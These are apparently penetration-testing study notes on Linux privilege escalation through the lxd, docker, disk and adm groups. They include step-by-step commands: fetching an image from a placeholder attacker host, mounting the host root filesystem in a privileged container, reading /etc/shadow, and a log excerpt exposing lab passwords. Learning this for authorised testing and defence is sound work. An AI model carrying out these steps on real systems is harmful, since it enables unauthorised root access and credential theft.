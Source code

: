 ```yaml
---
title: lxd 
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - privilege escalation
  - linux
  - lxd
---
```

# lxd

Linux Daemon ([LXD](https://github.com/lxc/lxd)) is similar to Docker and is Ubuntu's container manager. LXD is a management API for dealing with LXC containers on Linux systems. It will perform tasks for any members of the local lxd group. It does not make an effort to match the permissions of the calling user to the function it is asked to perform.

Before we can use this service to escalate our privileges, we must be in either the `lxc` or `lxd` group.

[Source: https://www.hackingarticles.in/lxd-privilege-escalation/](https://www.hackingarticles.in/lxd-privilege-escalation/). In this article, you can find a good explanation about how lxc works. [Original source: https://bugs.launchpad.net/ubuntu/+source/lxd/+bug/1829071](https://bugs.launchpad.net/ubuntu/+source/lxd/+bug/1829071).

## Privileges escalation

Privilege escalation through lxd requires the access of local account and that that local account belongs to the group lxd.

### Create our own container with Alpine and transfer it to the target system
In order to take escalate the root privilege of the host machine you have to create an image for lxd thus you need to perform the following the action:

**Steps to be performed on the attacker machine:**

```bash
# Download build-alpine in your local machine through the git repository:
git clone https://github.com/saghul/lxd-alpine-builder.git

# Execute the script “build -alpine” that will build the latest Alpine image as a compressed file, this step must be executed by the root user.
cd lxd-alpine-builder
sudo ./build-alpine

# This will generate a tar file that you need to transfer to the victim machine. For that you can copy that file to your /var/www/html folder and start apache2 service.
```

**Steps to be performed on the victim machine:**

```bash
# Download the alpine image. Go for instance to the /tmp folder and, if you have started the apache2 service in the attacker machine, do a wget:
wget http://AtackerIP//alpine-v3.17-x86_64-20230508_0532.tar.gz

# After the image is built it can be added as an image to LXD as follows:
lxc image import ./alpine-v3.17-x86_64-20230508_0532.tar.gz --alias myimage

# List available images:
lxc image list

# Initiate your image inside a new container
lxc init myimage ignite -c security.privileged=true

# Mount the container inside the /root directory
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true

# Initialize the container
lxc start ignite

# Launch a shell command in the container
lxc exec ignite /bin/sh

# Access the system via 
ls -l /mnt/root
```


#### Example from HackTheBox

Unzip the Alpine image.

```shell-session
 unzip alpine.zip 
```

Start the LXD initialization process. Choose the defaults for each prompt. Consult this [post](https://www.digitalocean.com/community/tutorials/how-to-set-up-and-use-lxd-on-ubuntu-16-04) for more information on each step.

```shell-session
lxd init

# List available images
lxc image list
```

Import the local image.

```shell-session
lxc image import alpine.tar.gz --alias alpine
```

Start a privileged container with the `security.privileged` set to `true` to run the container without a UID mapping, making the root user in the container the same as the root user on the host.

```shell-session
lxc init alpine r00t -c security.privileged=true
```

Mount the host file system.

```shell-session
lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true
```

Finally, spawn a shell inside the container instance. We can now browse the mounted host file system as root.

```shell-session
lxc start r00t
lxc exec r00t /bin/sh
ls -l /mnt/root
```

## Docker

Placing a user in the docker group is essentially equivalent to root level access to the file system without requiring a password. Members of the docker group can spawn new docker containers:

```
docker run -v /root:/mnt -it ubuntu
```

This command creates a new Docker instance with the /root directory on the host file system mounted as a volume. Once the container is started we are able to browse the mounted directory and retrieve or add SSH keys for the root user. This could be done for other directories such as `/etc` which could be used to retrieve the contents of the `/etc/shadow` file for offline password cracking or adding a privileged user.

## Disk

Users within the disk group have full access to any devices contained within `/dev`, such as `/dev/sda1`, which is typically the main device used by the operating system. An attacker with these privileges can use `debugfs` to access the entire file system with root level privileges.

**1.** Check if the user is in the `disk` group

```
id
```

**2.** Identify the disk partitions available

```
lsblk
```

**3.** Look for partitions like /dev/sda1, which usually contains the root filesystem. Open the filesystem with debugfs

```
sudo debugfs /dev/sda1
# If you already have disk group privileges, sudo is not required.
```

**4.**  Access and read sensitive files (e.g., /etc/shadow)

```
cat /etc/shadow
```

## ADM 

Members of the adm group are able to read all logs stored in /var/log. This does not directly grant root access, but could be leveraged to gather sensitive data stored in log files or enumerate user actions and running cron jobs.

We can use aureport to read audit logs on Linux systems, with the man page describing it as "aureport is a tool that produces summary reports of the audit system logs."

For instance:

```shell-session
aureport --tty | less
```

will output in the example:

```shell-session
Error opening config file (Permission denied)
NOTE - using built-in logs: /var/log/audit/audit.log
WARNING: terminal is not fully functional
-  (press RETURN)
TTY Report
===============================================
# date time event auid term sess comm data
===============================================
1. 06/01/22 07:12:53 349 1004 ? 4 sh "bash",<nl>
2. 06/01/22 07:13:14 350 1004 ? 4 su "ILFreightnixadm!",<nl>
3. 06/01/22 07:13:16 355 1004 ? 4 sh "sudo su srvadm",<nl>
4. 06/01/22 07:13:28 356 1004 ? 4 sudo "ILFreightnixadm!"
5. 06/01/22 07:13:28 360 1004 ? 4 sudo <nl>
6. 06/01/22 07:13:28 361 1004 ? 4 sh "exit",<nl>
7. 06/01/22 07:13:36 364 1004 ? 4 bash "su srvadm",<ret>,"exit",<ret>
```



## Related labs

[HackTheBox machine Included](htb-included.md).

